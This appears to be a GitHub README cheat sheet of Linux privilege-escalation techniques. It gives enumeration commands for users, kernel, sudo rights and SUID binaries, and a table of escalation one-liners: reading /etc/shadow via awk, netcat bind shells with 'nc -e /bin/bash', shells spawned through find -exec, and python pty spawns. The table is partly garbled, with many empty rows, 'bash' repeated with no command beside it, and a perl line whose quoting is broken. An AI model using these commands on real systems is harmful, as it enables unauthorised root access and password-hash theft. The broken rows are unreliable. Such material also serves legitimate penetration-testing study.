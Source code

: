 # Linux-Privilege-Escalation
Tips and Tricks for Linux Priv Escalation

## Start with the basics

Who am i?  
`id`

Who else is on this box (lateral movement)?  
`ls -la /home`  
`cat /etc/passwd`  

What Kernel version and distro are we working with here?  
`uname -a`  
`cat /etc/issue`  

What files and folders are in my home user's directory?  
`ls -la ~`

## Next focus on what we can EXECUTE

Who can execute code as root (probably will get a permission denied)?  
`cat /etc/sudoers`

Can I execute code as root (you will need the user's password)?  
`sudo -l`

What executables have SUID bit that can be executed as another user?  
`find / -user root -perm -4000 -print 2>/dev/null`  
`find / -perm -u=s -type f 2>/dev/null`  
`find / -user root -perm -4000 -exec ls -ldb {} \;`  

If any of the following commands appear on the list of SUID or SUDO commands, they can be used for privledge escalation:

| SUID / SUDO Executables               | Priv Esc Command                                                                    |
|---------------------------------------|-------------------------------------------------------------------------------------|
| nmap<br>(older versions 2.02 to 5.21) | nmap --interactive<br>!sh                                                           |
| netcat<br>nc                          | nc -nlvp 4444 &<br> nc -e /bin/bash 127.0.0.1 4444                                  |
| ncat                                  |                                                                                     |
| awk <br>gawk                          | awk '{ print }' /etc/shadow <br> awk 'BEGIN {system("id")}'                         |
| python                                | python -c 'import pty;pty.spawn("/bin/bash")'                                       |
| perl                                  | perl -e 'exec' "/bin/bash";'                                                                                   |
| php                                   |      |
| find                                  | find /home -exec nc -lvp 4444 -e /bin/bash \\;<br> find /home -exec /bin/bash \\;  |
| xxd                                   |                                                                                     |
| vi                                    |                                                                                     |
| more                                  |                                                                                     |
| less                                  |                                                                                     |
| nano                                  |                                                                                     |
| cp                                    |                                                                                     |
| cat                                   |                                                                                     |
| bash                                  |                                                                                     |
| bash                                  |                                                                                     |
| bash                                  |                                                                                     |
| bash                                  |                                                                                     |
| bash                                  |                                                                                     |
| bash                                  |                                                                                     |
| bash                                  |                                                                                     |





## References

https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
http://www.hackingarticles.in/linux-privilege-escalation-using-exploiting-sudo-rights/
https://payatu.com/guide-linux-privilege-escalation/

